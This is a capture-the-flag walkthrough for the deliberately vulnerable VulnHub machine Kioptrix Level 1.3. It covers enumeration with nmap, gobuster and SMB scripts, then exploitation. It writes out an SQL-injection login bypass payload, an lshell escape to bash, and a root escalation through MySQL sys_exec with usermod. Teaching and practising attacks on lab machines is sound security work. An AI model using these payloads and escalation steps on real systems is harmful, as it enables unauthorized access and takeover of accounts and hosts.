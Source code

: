 # Information

- Name: Kioptrix: Level 1.3 (#4)
- Date release: 8 Feb 2012
- Author: Kioptrix
- Series: Kioptrix
- Platform: VulnHub
- Link: https://www.vulnhub.com/entry/kioptrix-level-13-4,25/
- Difficulty: Easy

# Write Up

## Enumeration

### Host Discovery
Host Discovery is performed using the tool [arpScan](https://github.com/aalmeidar/Tools/tree/main/arpScan).Several IPs are listed, of which _10.0.2.5_ is the one indicated.
```Console
# python3 main.py -m 2 -r 10.0.2.0/24
[*] 52:54:00:12:35:00 10.0.2.1
[*] 52:54:00:12:35:00 10.0.2.2
[*] 08:00:27:a3:f2:2f 10.0.2.3
[*] 08:00:27:09:1f:1b 10.0.2.5
```
### Port Scanning 
Port Scanning is performed with [portScan](https://github.com/aalmeidar/Tools/tree/main/portScan) and _nmap_. First, the entire port range is scanned to find those that are open.

The following ports are found:
```Console
# python3 portScanner.py -i 10.0.2.5
[*] Port 22 (ssh) open
[*] Port 80 (http) open
[*] Port 139 (netbios-ssn) open
[*] Port 445 (microsoft-ds) open
```
Three main attack vectors are observed: SSH, Web and SMB. The versions of the respective services are scanned with nmap:

```Console
# nmap -sV -p22,80,139,445 10.0.2.5
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-29 17:29 UTC
Nmap scan report for 10.0.2.5 (10.0.2.5)
Host is up (0.00028s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 08:00:27:09:1F:1B (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.57 seconds
```
#### SSH
Port 22 is running OpenSSH 4.7p1 in Debian 8ubuntu1.2. In this version users can be enumerated to see if they exist in the system with [OpenSSH 2.3 - 7.7 - Username Enumeration](https://www.exploit-db.com/exploits/45233).

#### Web
Port 80 is running Apache httpd 2.2.8. With _whatweb_ ypu can take a quick look at the technologies used. In ths case, nothing interesting but there is a login.

```Console
whatweb http://10.0.2.5
http://10.0.2.5 [200 OK] Apache[2.2.8], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch], IP[10.0.2.5], PHP[5.2.4-2ubuntu5.6][Suhosin-Patch], PasswordField[mypassword], X-Powered-By[PHP/5.2.4-2ubuntu5.6]
```
On the web, there is simply a username field and a password field next to a picture of a goat.
![Index](/images/index.png)

After some tests it is observed that the password field is vulnerable to SQLi. For example, if it is tested with _admin_ and _test' or 1=1-- -_ it gives us the following output:
![SQLi Admin](/images/sqli_admin.png)

You could brute force to find valid users via ssh, but it would take more time.
To finish listing the web, you can perform fuzzing to find directories and files. In this case I will use _gobuster_.

```Console
sudo gobuster dir -u http://10.0.2.5 -x php -w /usr/share/wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.5
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/08/29 18:00:24 Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 1255]
/images               (Status: 301) [Size: 344] [--> http://10.0.2.5/images/]
/index.php            (Status: 200) [Size: 1255]
/member               (Status: 302) [Size: 220] [--> index.php]
/member.php           (Status: 302) [Size: 220] [--> index.php]
/logout               (Status: 302) [Size: 0] [--> index.php]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/john                 (Status: 301) [Size: 342] [--> http://10.0.2.5/john/]
/robert               (Status: 301) [Size: 344] [--> http://10.0.2.5/robert/]
/server-status        (Status: 403) [Size: 328]

===============================================================
2022/08/29 18:01:00 Finished
===============================================================
```
Users john and robert are found. Accessing john's directory exposes his credentials. It can also be checked by login or SQLi.
![John Directory](/images/john_directory.png)
![John Password](/images/john_password.png)

#### SMB
On the other hand, ports 139 and 445 are running smb. To enumerate them, some nmap scripts intended for this purpose will be used.

```Console
# nmap -p139,445 --script smb-enum-users,smb-enum-shares 10.0.2.5
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-29 18:14 UTC
Nmap scan report for 10.0.2.5 (10.0.2.5)
Host is up (0.00025s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 08:00:27:09:1F:1B (Oracle VirtualBox virtual NIC)

Host script results:
| smb-enum-shares:
|   account_used: guest
|   \\10.0.2.5\IPC$:
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (Kioptrix4 server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.0.2.5\print$:
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>
| smb-enum-users:
|   KIOPTRIX4\john (RID: 3002)
|     Full name:   ,,,
|     Flags:       Normal user account
|   KIOPTRIX4\loneferret (RID: 3000)
|     Full name:   loneferret,,,
|     Flags:       Normal user account
|   KIOPTRIX4\nobody (RID: 501)
|     Full name:   nobody
|     Flags:       Normal user account
|   KIOPTRIX4\robert (RID: 3004)
|     Full name:   ,,,
|     Flags:       Normal user account
|   KIOPTRIX4\root (RID: 1000)
|     Full name:   root
|_    Flags:       Normal user account

Nmap done: 1 IP address (1 host up) scanned in 0.27 seconds
```
- Found users: john, loneferret, nobody, robert and root. 
- Shared directories found: IPC$ and print$

## Exploitation
First of all, you can check if the obtained credentials access the ssh service. Entering the username _john_ and the password _MyNameIsJohn_ returns a shell. The shell is an _lshell_, that is, it is a restricted shell where only the commands listed with the _?_ or _help_ command can be executed. 
```Console
ssh -oHostKeyAlgorithms=+ssh-dss john@10.0.2.5
```

To escape from lshell (0.9.5) and start a bash you can run:
```Console
echo os.system('/bin/bash')
```
With this we would already be inside the machine and we could access the root directory.

## Privilege Escalation

It can be seen that the mysql service exists in the system. It tries to login as root without a password and is successful. Via mysql_udf we can change john's groups. 
If you list /etc/passwd you can see a group _admin_.

```Console
john@Kioptrix4:~$ mysql -u root
```

```Console
mysql> select  sys_exec('usermod -a -G admin john');
+-------------------------------------+
| sys_exec('usermod -a -G root john') |
+-------------------------------------+
| NULL                                |
+-------------------------------------+
1 row in set (0.05 sec)

mysql> exit
Bye
john@Kioptrix4:~$ sudo su
sudo] password for john:
root@Kioptrix4:/home/john# whoami
root
```
